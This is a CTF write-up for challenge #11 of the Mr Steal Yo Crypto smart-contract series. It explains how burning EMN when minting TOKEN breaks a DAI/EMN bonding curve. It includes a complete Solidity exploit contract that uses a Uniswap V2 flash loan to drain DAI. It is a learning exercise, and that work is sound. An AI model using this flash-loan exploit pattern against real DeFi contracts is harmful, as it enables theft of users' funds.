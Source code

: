 ```yaml
---
title: "Mr Steal Yo Crypto — Bonding Curve"
date: 2023-07-22
draft: false
description: "CTF - 11"
tags: ["CTF"]
series: ["CTF"]
series_order: 11
topics: ["CTF"]
showAuthor: false
showAuthorsBadges : false
---
```


This is the #11 challenge of [Mr Steal Yo Crypto](https://mrstealyocrypto.xyz/index.html). I will try to explain how to find the vulnerability.

> A set of challenges to learn offensive security of smart contracts. Featuring interesting challenges loosely (or directly) inspired by real world exploits.

Created by [@0xToshii](https://twitter.com/0xToshii).

I used the foundry version for this CTF: [mr-steal-yo-crypto-ctf-foundry](https://github.com/0xToshii/mr-steal-yo-crypto-ctf-foundry/tree/implement).

![Mr Steal Yo Crypto](https://cdn-images-1.medium.com/freeze/max/800/1*67w9ffBxLP4AMvoxHowZ2w.jpeg)

## Bonding Curve

[Redacted] have released two token contracts for their upcoming game: EMN & TOKEN, which allow you to mint based on their respective bonding curves.

DAI is used to mint EMN, and EMN is used to mint TOKEN.

Your task is to steal at least 50,000 DAI. You start with no tokens.

- [See the contracts](https://github.com/0xToshii/mr-steal-yo-crypto-ctf-foundry/tree/implement/src/bonding-curve)
- [Complete the challenge](https://github.com/0xToshii/mr-steal-yo-crypto-ctf-foundry/blob/implement/test/11-bonding-curve.sol)

## Review of the contracts

First, I didn’t know a lot about bonding curve before this challenge. Here are some resources that helped me overcome my lack of knowledge:

- [https://medium.com/@simondlr/bancors-smart-tokens-vs-token-bonding-curves-a4f0cdfd3388](https://medium.com/@simondlr/bancors-smart-tokens-vs-token-bonding-curves-a4f0cdfd3388)
- [https://medium.com/@simondlr/a-bonded-curation-community-247f14a6de04](https://medium.com/@simondlr/a-bonded-curation-community-247f14a6de04)
- [https://billyrennekamp.medium.com/converting-between-bancor-and-bonding-curve-price-formulas-9c11309062f5](https://billyrennekamp.medium.com/converting-between-bancor-and-bonding-curve-price-formulas-9c11309062f5)
- [https://blog.relevant.community/how-to-make-bonding-curves-for-continuous-token-models-3784653f8b17?gi=c7d2204ca921](https://blog.relevant.community/how-to-make-bonding-curves-for-continuous-token-models-3784653f8b17?gi=c7d2204ca921)
- [https://blog.relevant.community/bonding-curves-in-depth-intuition-parametrization-d3905a681e0a?gi=4ec27f766b1d](https://blog.relevant.community/bonding-curves-in-depth-intuition-parametrization-d3905a681e0a?gi=4ec27f766b1d)
- [https://articles.linumlabs.com/articles/bonding-curves-the-what-why-and-shapes-behind-it](https://articles.linumlabs.com/articles/bonding-curves-the-what-why-and-shapes-behind-it)
- [https://www.desmos.com/calculator/8gxacjujal](https://www.desmos.com/calculator/8gxacjujal)
- [https://www.desmos.com/calculator/ro8jpt2ud2](https://www.desmos.com/calculator/ro8jpt2ud2)
- [https://github.com/relevant-community/bonding-curve](https://github.com/relevant-community/bonding-curve)
- [https://github.com/bitsofether/awesome-bonding](https://github.com/bitsofether/awesome-bonding)
- [https://wiki.aavegotchi.com/en/curve](https://wiki.aavegotchi.com/en/curve)

## EminenceInterface.sol
Inside this contract we have two interfaces that will ease our calls for buying and selling tokens.

## EminenceCurrencyHelpers.sol
We have a little bit of everything, we got some interfaces (IERC20, BondingCurve), a library (SafeMath), and some contracts (ERC20, ERC20Detailed, ContinuousToken). For generalizing, ContinuousToken is the contract core logic of the protocol. The contract is in charge of how many tokens to send if a user wants to buy or sell. He will keep the current point position on the bonding curve.

## BancorBondingCurve.sol
This contract represents the bonding curve. The contract will be deployed independently.

## EminenceCurrencyBase.sol
This contract handles bonding of DAI <-> EMN. It inherits the ContinuousToken and ERC20Detailed contracts. We will deal with it for buying or selling EMN tokens. Something to notice is that for selling EMN tokens we are burning the token. Just a reminder, the contract is the EMN token.

## EminenceCurrency.sol
The last contract handles bonding of EMN <-> Token. It inherits the ContinuousToken and ERC20Detailed contracts. We will deal with it for buying or selling TOKEN tokens. Just a reminder, the contract is the TOKEN token. We can again notice that for selling TOKEN tokens we are burning the token. The difference between EminenceCurrencyBase and EminenceCurrency is at [L78](https://github.com/0xToshii/mr-steal-yo-crypto-ctf-foundry/blob/implement/src/bonding-curve/EminenceCurrency.sol#L78) for buying TOKEN. In EminenceCurrencyBase, we are sending DAI, but here we are calling the claim() function of EMN. Let’s see what it means.

## Claim() and test file
The requirement looks strange, but don’t worry. Inside the [test](https://github.com/0xToshii/mr-steal-yo-crypto-ctf-foundry/blob/implement/test/11-bonding-curve.sol#L118), we can see that the admin allows EminenceCurrency to be gamemasters. After we pass the requirement, we burn the EMN token. What? So for buying TOKEN, we are burning EMN. But EMN is also used on another bonding curve (DAI <-> EMN). We will check the buy() of EminenceCurrencyBase. Inside buy(), we are calling _buy() of ContinuousToken. Then inside _buy(), we go to _continuousMint(), which also calls calculateContinuousMintReturn, which is calling CURVE.calculatePurchaseReturn (the contract BancorBondingCurve deployed) ^^.

I’m still not at ease with the implementation of the bonding curve. I want to try if burning the EMN token is causing a vulnerability.

Here is a graph to have a clearer vision:

![Graph](https://cdn-images-1.medium.com/freeze/max/800/1*jDkOsqFv_FwI-zvsQV0ifg.png)

## Exploit the vulnerability
I did a quick test and effectively, the vulnerability seems to be due to the burning of EMN when buying TOKEN:

1. Borrow `n` amount of DAI via a Flashloan via uniswapv2
2. Buy `z` amount of EMN token via buy() (we are sending DAI into the contract)
3. Then we buy `x` TOKEN via buy(), this time we are burn EMN token (`z`/2 amount)
4. Now, if we sell EMN the remaining amount (`z`/2). Do we get `n`/2 of DAI or more?

```solidity
contract Exploit{

    address owner;
    IUniswapV2Pair uniPair; // DAI-USDC trading pair
    IWETH weth;
    Token usdc;
    Token dai;
    IEminenceCurrency eminenceCurrencyBase;
    IEminenceCurrency eminenceCurrency;

    constructor(address _dai, address _eminenceCurrencyBase, address _eminenceCurrency, address _uniPair ){
        owner = msg.sender;
        dai = Token(_dai);
        eminenceCurrencyBase = IEminenceCurrency(_eminenceCurrencyBase);
        eminenceCurrency = IEminenceCurrency(_eminenceCurrency);
        uniPair = IUniswapV2Pair(_uniPair);
    }

    function uniswapV2Call(address _address,uint amount0Out,uint amount1Out, bytes memory data) external {
        uint256 daiAmount = dai.balanceOf(address(this));
        console.log("balance dai of exploit: ", daiAmount);

        dai.approve(address(eminenceCurrencyBase), type(uint).max);
        eminenceCurrencyBase.approve(address(eminenceCurrency), type(uint).max);

        // --exploit swaps all DAI to EMN, convert 1/2 EMN to TOKEN
        eminenceCurrencyBase.buy(daiAmount, 0);
        uint256 eminenceCurrencyBaseAmount = eminenceCurrencyBase.balanceOf(address(this));

        uint256 amount_ = eminenceCurrencyBaseAmount / 2;
        eminenceCurrency.buy(amount_, 0);

        // With the convert we just burn the supply of EMN so for the first bonding curve if we sell, we will gain higher than it supposed to be
        eminenceCurrencyBase.sell(amount_, 0);
        console.log("balance dai of exploit: ", dai.balanceOf(address(this)));

        // Sell the remaining TOKEN and then sell EMN
        uint256 eminenceCurrencyAmount = eminenceCurrency.balanceOf(address(this));
        eminenceCurrency.sell(eminenceCurrencyAmount, 0);
        eminenceCurrencyBaseAmount = eminenceCurrencyBase.balanceOf(address(this));
        eminenceCurrencyBase.sell(eminenceCurrencyBaseAmount, 0);

        console.log("balance dai of exploit: ", dai.balanceOf(address(this)));
        console.log("amount to repay: ", (amount1Out * 103 / 100) + 1); // Yeah, the premium is a bit too high

        dai.transfer(address(uniPair), (amount1Out * 103 / 100) + 1);
        dai.transfer(owner, dai.balanceOf(address(this)));
        console.log("balance dai of attacker: ", dai.balanceOf(address(owner)));
    }

    function pwn() external {
        uniPair.swap(0, 999_999e18, address(this), new bytes(1));
    }
}
```

You can check my test file [here](https://github.com/gp-ngmi/mr-steal-yo-crypto-ctf-foundry/blob/implement/test/11-bonding-curve.sol).

I can’t say that I really solve the challenge, because I’m not mastering the exploit. Maybe it’s easier or we can optimize my exploit. In the end, I passed the challenge!

## Acknowledgment
Thank you [https://stermi.xyz/](https://stermi.xyz/) for inspiring me to write articles on CTF ^^.
